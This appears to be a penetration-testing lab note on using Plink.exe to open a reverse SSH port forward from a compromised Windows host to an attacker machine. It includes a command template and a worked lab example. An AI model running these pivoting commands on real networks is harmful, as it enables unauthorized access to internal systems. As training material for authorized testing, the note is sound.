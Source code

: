 # Plink.exe

Plink.exe is essentially a version of the PuTTY SSH client that works with the Windows command line. Since Windows now comes with it's own inbuilt SSH client it is essentially a fairly useless tool for modern systems however, it can still come in handy so it's worth knowing how to use or atleast knowing about so that it can be an option if needed

Since Windows servers are unlikely to have an SSH server running Plink can be utilised to create a reverse connection by transfering the binary then constructing a command such as this: **cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N**. The start of this command **cmd.exe /c echo y** is in place to get around the warning message that the target has not connected to this host before. It's mainly for non-interactive shells i.e most reverse shells, given Windows shells are difficult to stabalise

Using this command with our example network we used in the previous section. Say we have access to **172.16.0.5** and wish to forward a connection to **172.16.0.10:80** back to port **8000** on our own attacking machine at **172.16.0.20**, we could use the command like this: **cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N**

Keys generated using **ssh-keygen** will not work here so you will need to use a tool called puttygen. which can be installed on kali easily (**sudo apt install putty-tools**). Conversion can then be done by doing puttygen **KEYFILE -o OUTPUT_KEY.ppk**

You would then transfer the **.ppk** file to the target machine and use it in the same way that you did the reverse port forwarding in the previous section with all **authorised_keys** still intact despite the private key being converted

Plink can be downloaded from the following link: [Download Here.](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) Plink is notorious for going out of date so whilst it is already installed on Kali at **/usr/share/windows-resources/binaries/plink.exe** it's worth redownloading before use



